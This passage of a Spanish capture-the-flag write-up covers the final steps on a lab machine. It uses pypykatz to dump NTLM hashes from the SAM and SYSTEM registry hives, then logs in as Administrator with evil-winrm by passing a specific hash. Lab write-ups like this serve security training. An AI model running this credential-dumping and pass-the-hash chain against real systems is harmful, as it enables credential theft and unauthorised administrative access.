 Con la herramienta de **pypykatz** procederemos a extraer los hashes NTLM de la SAM.

```bash
pypykatz registry --sam SAM SYSTEM 2>/dev/null
```

<figure><img src="../../.gitbook/assets/imagen (134).png" alt="" width="563"><figcaption></figcaption></figure>

Procederemos de conectarnos al WinRM que encontramos expuesto con **evil-winrm** intentando acceder con el usuario "Administrator" y con su respectivo hash NTLM. Comprobaremos que accedemos sin problemas y encontraremos la _flag_ del root.

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

<figure><img src="../../.gitbook/assets/imagen (135).png" alt=""><figcaption></figcaption></figure>
